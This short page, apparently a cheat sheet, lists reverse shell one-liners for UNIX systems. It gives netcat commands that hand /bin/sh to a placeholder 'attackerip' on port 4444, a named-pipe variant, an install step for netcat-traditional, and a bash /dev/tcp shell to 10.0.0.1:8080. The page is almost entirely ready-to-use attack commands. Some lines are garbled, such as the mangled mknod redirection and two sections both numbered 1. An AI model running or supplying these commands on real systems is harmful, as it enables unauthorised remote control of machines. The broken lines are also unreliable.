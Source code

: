 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

### 1. Netcat

For old versions of netcat -
> nc attackerip 4444  -e /bin/sh
> /bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
> sudo apt-get install netcat-traditional

### 1. Bash




bash -i >& /dev/tcp/10.0.0.1/8080 0>&1